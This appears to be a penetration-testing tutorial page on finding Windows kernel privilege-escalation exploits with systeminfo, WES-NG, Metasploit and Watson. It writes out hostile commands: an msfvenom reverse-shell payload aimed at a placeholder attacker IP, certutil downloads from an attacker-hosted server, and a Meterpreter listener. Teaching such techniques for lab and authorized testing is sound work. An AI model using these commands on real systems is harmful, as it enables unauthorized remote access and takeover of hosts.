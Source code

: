 ```yaml
---
legal-banner: true
---
```


### **Manual enumeration**

1.  Use the `systeminfo` command to collect detailed information about the system, including the OS version, system architecture, and installed hotfixes (KBs).  
    `systeminfo`

    ![](../../../img/Windows-Environment/3.png)
    
    **Note:** In the provided output, we can identify the system as Windows 7 Pro – Build 7601 – x64-based (64-bit). It also shows that three hotfixes have been installed on this host.
    
2.  To obtain more details about the installed hotfixes, use:  
    `wmic qfe get Caption,Description,HotFixID,InstalledOn`  
    
    ![](../../../img/Windows-Environment/4.png)

    **Note:** Microsoft has shifted away from using MS bulletin numbers (e.g., “MS17-010”) to reference vulnerabilities. Since late 2017/early 2018, Microsoft uses the CVE (Common Vulnerabilities and Exposures) system. Modern kernel exploits are labeled with CVE-20XX-XXXX identifiers.
    

### **Enumerating with Windows Exploit Suggester (WES-NG)**

1.  Run the `systeminfo` command on the target machine to gather system information. Copy the output and save it to a TXT file on the attacker machine.  
    
    ![](../../../img/Windows-Environment/5.png)
    
2.  Update the WES-NG database to ensure the latest exploits are available:  
    `python3 wes.py --update`  
    
    ![](../../../img/Windows-Environment/6.png)
    
3.  Analyze the system information to identify potential kernel exploits:  
    `python3 wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only`  
    
    ![](../../../img/Windows-Environment/7.png)
    

### **Enumerating with Metasploit**

1.  Generate a reverse TCP Meterpreter payload for the target’s architecture (x86 or x64) and save it as an executable:  
    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[IP-ADDRESS] LPORT=1337 -f exe > shell-x64.exe`  
    
    ![](../../../img/Windows-Environment/8.png)

    **Note:** Metasploit includes a built-in Local Exploit Suggester module that can help identify kernel exploits.
    
2.  Host the payload binary using a Python HTTP server and transfer it to the target with `certutil`:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/accesschk64.exe accesschk64.exe`  
    
    ![](../../../img/Windows-Environment/9.png)
    
3.  On the attacker machine, start a multi-handler listener in Metasploit:  
    `msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 1337; run"`  
    
    ![](../../../img/Windows-Environment/10.png)
    
4.  Execute the reverse shell binary on the target to establish a Meterpreter session:  
    `.\shell-x64.exe`  
    
    ![](../../../img/Windows-Environment/11.png)
    
5.  Load the Local Exploit Suggester in Metasploit:  
    
    ```
    background
    search suggester
    use 0
    set SESSION 1
    exploit
    ```
    
    ![](../../../img/Windows-Environment/12.png)
    
6.  After about a minute, Metasploit will provide a list of potential kernel exploits for the host.  
    ![](../../../img/Windows-Environment/13.png)
    

### **Enumerating with Watson**

1.  Transfer Watson to the target using any file transfer method (see File Transfer section). Example using `certutil`:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/Watson.exe Watson.exe`  
    
    ![](../../../img/Windows-Environment/14.png)

    **Note:** Watson supports multiple versions of Windows 10 (1507, 1511, 1607, 1703, 1709, 1803, 1809, 1903, 1909, 2004) and Windows Server (2016 & 2019).
    
2.  Execute Watson on the target and review the output:  
    `.\Watson.exe`